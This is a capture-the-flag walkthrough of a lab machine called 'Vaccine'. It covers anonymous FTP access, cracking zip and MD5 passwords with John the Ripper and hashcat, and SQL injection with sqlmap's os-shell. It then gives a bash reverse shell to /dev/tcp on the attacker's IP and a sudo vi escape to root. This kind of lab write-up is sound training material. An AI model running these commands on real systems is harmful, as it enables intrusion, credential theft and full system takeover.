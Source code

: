 # Vaccine

#### Difficulty:<code>Very Easy</code>

#### Machine Tags:
  Vulnerability Assessment  
  Databases  
  Custom Applications  
  Protocols  
  Source Code Analysis  
  Apache  
  PostgreSQL  
  FTP  
  PHP  
  Reconnaissance  
  Password Cracking  
  SUDO exploitation  
  SQL injection  
  Remote Code Execution  
  Clear Text Credentials  
  Anon/Guest Access  

#### Description
  Learn how to enumerate a system and how powerful it really is.

#### **Initial Enumeration**
  21/tcp : ftp  : vsftpd 3.0.3
  22/tcp : ssh  : OpenSSH 8.0p1 Ubuntu
  80/tcp : http : Apache httpd 2.4.41 ((Ubuntu))
  
  Seeing FTP we can test the login with anonymous credentials. There is a .zip file present on the FTP server, and we can download it and crack it open.

  However, there seems to be a problem since the .zip is password locked. 

#### **Cracking the Password**
  To unlock the .zip, we can use John the Ripper. First, since it is a .zip we can use a utility packed with John called *zip2john* to create hashes for the files. Then use those hashes in a regular john password cracking command. 
  ``` bash
    zip2john {file}.zip > {hashfile_name}
    john --wordlist={wordlist_file} {hashfile_name}
    john --show {hashfile_name}
  ```
  Luckily, we were able to get the password using John and extract the files. Reading through index.php, we can find the login function and see there is a password hash written in plaintext of the function. Since this is an MD5 hash, its not the actual password and we can find out what it represents. This can be done with Google or hashcat. 
  ``` bash
    echo "{md5_hash}" > {hashfile_name}
    hashcat -a 0 -m 0 {hashfile_name} {filepath}/{wordlist}
  ```
  ![md5 unhash result](./assets/hashcat_output.png)

  Now that the credentials for logging in are acquired we can go into Firefox to login to the dashbaord. 

#### **SQLmap**
  *SQLmap* is a tool for detecting potential exploits for SQL injection. To craft a sqlmap command, first the structure of queries need to be examined. By inspecting the cookies, we can see that the field <code>PHPSESSID</code> and we need to make sure to include it in our command. 
  ``` bash
    sqlmap -u '{URL}/{path_if_present/}' --cookie="{cookie_param_name}={cookie_value}"
  ```
  ![GET request param search](./assets/sqlmap_GET.png)

  This tells us that the search box is vulnerable. In turn, we can append <code>--os-shell</code> to the end to perform command injection. There is now an established connection to the shell, however it is not very stable and it can be remedied using the following payload:
  ``` bash
    bash -c "bash -i >& /dev/tcp/{local_IP}/443 0>&1"
  ```
  Make sure to start a netcat server on port 443 as well. Then run these commands to establish a cleaner stable terminal shell on the same terminal as the netcat server. 
  ``` bash
    python3 -c 'import pty;pty.spawn("/bin/bash")' 
    CTRL+Z 
    stty raw -echo 
    fg 
    export TERM=xterm
  ```

#### **Privilege Escalation**
  Right now we do not have admin or root access. We can inspect the files that are being served for potential credentials like these: 
  ![dashboard.php postgres credentials](./assets/postgres_creds.png)  

  From here, we know that the username is postgres and the password. Instead of a reverse shell it is now possible to use SSH. It is also possible to inspect our privileges as user postgres:

  ![postgres user privileges](./assets/postgres_priv.png)
  
  Our privileges involve editing pg_hba.conf using Vi. According to [gtfobins](https://gtfobins.github.io/gtfobins/vi/#sudo), we can use Vi to our advantage either using <code>vi -c ':!/bin/sh' /dev/null</code> or <code> vi :set shell=/bin/sh :shell</code>. The latter bit, needs to be in Vi where each :{instruction} is entered one after the other. It will allow us to gain root access. 